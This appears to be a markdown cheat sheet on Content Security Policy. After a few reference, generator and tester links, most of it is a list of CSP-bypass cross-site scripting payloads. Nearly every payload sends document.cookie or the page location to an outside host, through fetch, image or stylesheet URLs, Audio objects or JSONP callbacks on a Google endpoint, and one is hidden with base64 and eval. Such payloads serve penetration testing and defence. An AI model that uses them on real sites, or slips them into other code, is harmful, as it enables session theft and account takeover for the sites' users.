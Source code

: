 # Content Security Policy

https://content-security-policy.com/#directive
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy

https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#csp-is-not-a-substitute-for-secure-development


## CSP Generator
https://report-uri.com/home/generate

## CSP Tester
https://csp-evaluator.withgoogle.com/

## Bypass CSP 

via JSONB
https://github.com/zigoo0/JSONBee

Data 

```js
<script src="data:application/javascript,alert(1)"></script>
```

AJAX Fetch

```js
<script>fetch('http://example.com/${document.cookie}')</script>
<script>fetch('http://example.com/' + docment.cookie)</script>
```

IMG
```js
<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)}`</script>
```

Nonce + CSS

```js
<script nonce="abcdef">
document.write('<link rel="stylesheet" type="text/css" href="http://10.8.189.220/' + document.cookie +'">')
</script>
```

IMG DOM

```js
<script>document.write('<img src="http://192.168.178.41/' +document.cookie+'">');</script>
```

JSONB

```js
<script src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(`http://192.168.178.41/${document.location}`)"></script>
```

JSONB and Base64

```js
<script src="https://accounts.google.com/o/oauth2/revoke?callback=eval(atob('aW1nPW5ldyBJbWFnZTtpbWcuc3JjPWBodHRwOi8vMTAuOC4xODkuMjIwLyR7ZG9jdW1lbnQuY29va2llfWA7'))"></script>


<script>
//img=new Image;img.src=`http://10.8.189.220/${document.cookie}`;

//eval(atob('aW1nPW5ldyBJbWFnZTtpbWcuc3JjPWBodHRwOi8vMTAuOC4xODkuMjIwLyR7ZG9jdW1lbnQuY29va2llfWA7'))
</script>
```

Media

```js
<script src="/'; new Audio('https://stroke.free.beeceptor.com/' + document.cookie); '"></script>
```